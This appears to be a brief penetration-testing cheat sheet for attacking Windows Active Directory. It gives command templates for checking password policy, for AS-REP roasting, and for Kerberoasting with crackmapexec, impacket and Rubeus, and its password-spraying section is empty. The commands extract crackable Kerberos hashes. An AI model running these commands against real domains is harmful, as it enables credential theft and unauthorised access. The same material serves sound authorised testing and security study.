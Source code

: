 #### Check Policy
```
crackmapexec <ip> -u <user> -p <password> --pass-pol
enum4linux -u <user> -p <pass> -P <ip>
net accounts
```

#### Spray
```

```

#### AS-REP Roasting
```
#Gets all users.
impacket-GetADUsers -all -dc-ip <dc_ip> <domain>/<username>

#Roasting
.\Rubeus.exe asreproast /nowrap
impacket-GetNPUsers.py <domain>/ -usersfile <usernames.txt> - format hashcat -outputfile <hashes.txt>
```
#### Kerberoasting
```
#Roasting
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
impacket-GetUserSPNs --request -dc-ip <ip> <domain>/<user>:<password>
```